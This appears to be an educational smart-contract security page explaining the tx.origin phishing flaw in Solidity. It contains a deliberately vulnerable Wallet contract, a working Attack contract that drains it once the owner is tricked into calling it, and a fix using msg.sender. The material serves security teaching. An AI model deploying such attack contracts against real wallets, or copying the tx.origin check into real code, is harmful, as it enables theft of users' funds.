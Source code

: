 # Phishing with tx.origin
#### What's the difference between `msg.sender` and `tx.origin`?
If contract A calls B, and B calls C, in C `msg.sender` is B and `tx.origin` is A.
#### Vulnerability
A malicious contract can deceive the owner of a contract into calling a function that only the owner should be able to call.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
Wallet is a simple contract where only the owner should be able to transfer
Ether to another address. Wallet.transfer() uses tx.origin to check that the
caller is the owner. Let's see how we can hack this contract
*/

/*
1. Alice deploys Wallet with 10 Ether
2. Eve deploys Attack with the address of Alice's Wallet contract.
3. Eve tricks Alice to call Attack.attack()
4. Eve successfully stole Ether from Alice's wallet

What happened?
Alice was tricked into calling Attack.attack(). Inside Attack.attack(), it
requested a transfer of all funds in Alice's wallet to Eve's address.
Since tx.origin in Wallet.transfer() is equal to Alice's address,
it authorized the transfer. The wallet transferred all Ether to Eve.
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
#### Preventative Techniques
Use `msg.sender` instead of `tx.origin`
```
function transfer(address payable _to, uint256 _amount) public {
	require(msg.sender == owner, "Not owner");

	(bool sent, ) = _to.call{ value: _amount }("");
	require(sent, "Failed to send Ether");
}
```